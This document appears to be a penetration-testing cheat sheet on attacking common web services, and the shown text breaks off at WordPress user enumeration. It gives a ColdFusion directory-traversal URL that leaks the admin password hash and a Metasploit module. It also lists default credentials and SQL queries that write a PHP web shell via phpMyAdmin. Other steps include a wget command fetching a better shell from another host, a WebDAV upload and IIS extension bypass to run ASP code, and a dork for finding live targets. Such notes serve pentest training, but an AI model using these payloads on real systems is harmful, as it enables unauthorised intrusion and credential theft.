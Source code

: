 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.
http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl
It will say something like:
```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR


This works for version 8.0.1. So make sure to check the exact version.
```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password. 
```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilites. The old versions at least.

http://example.com/vtigercrm/
default login is
admin:admin

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:
```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL. 

```
Run SQL query/queries on server "localhost":
```
From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp. 

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```
cadaver 192.168.1.101/webdav
```

Then sign in with username and password.
The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```
inurl:webdav site:com
```


Test if it is possible to upload and execute files with webdav.

```
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that!
So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell. 

### References

http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf

## Wordpress


```
sudo wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason.
Read more here: https://en.wikipedia.org/wiki/HTTP_403

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent.
You can of course also define a specific agent if you want that. But random-agent is pretty convenient.
```
sudo wpscan -u http://cybear32c.lab/ --random-agent
```

### Scan for users

You can use wpscan to enumerat users: